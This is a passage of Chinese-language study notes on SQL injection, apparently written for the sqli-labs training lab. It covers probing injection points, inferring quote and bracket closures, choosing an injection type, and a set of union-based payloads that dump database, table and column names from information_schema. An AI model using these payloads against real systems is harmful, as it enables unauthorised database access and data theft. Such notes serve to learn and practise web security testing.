 ###### 注入点

&emsp;&emsp;id=1'、id=1"、id=1')、 id=1')) 、id=1") 、id=1")) 等。

###### 闭合推理

示例，sqli-labs Less-7 ：

- 1'：错
- 1" ：成
- 推出 '$id'
- 1'--+ ：错
- 推翻 '$id'
- 1')--+：错
- 1')) --+：成
- 推出 (('$id'))

###### 类型判断

注：如果正确查询有回显，错误查询无回显或回显不一样，则称为“存在flag”；如果正确查询和错误查询的回显都一样或都不回显，则称为“不存在flag”。

- 语句报错、回显查询信息，联合注入或报错注入或布尔注入或导出文件或延时注入。
- 语句报错、存在flag、不回显查询信息，报错注入或布尔注入或导出文件或延时注入。
- 语句不报错、存在flag、不回显查询信息，布尔注入或导出文件或延时注入。
- 语句不报错、不存在flag、不回显查询信息，延时注入。

#### 【注入类型】

##### <<联合注入

###### 爆语句

注入点检测。

###### 爆字段数

`?id=1' order by N--+`

###### 爆回显位置

`?id=-1' union select 1,2,3--+`

###### 爆库名

`?id=-1' union select 1,2,database()--+`

###### 爆表名

`?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='xxx'--+`

###### 爆列名

- 精确到表：`?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='xxx' and table_name='xxx'--+`
- 精确到库：`?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='xxx'--+`
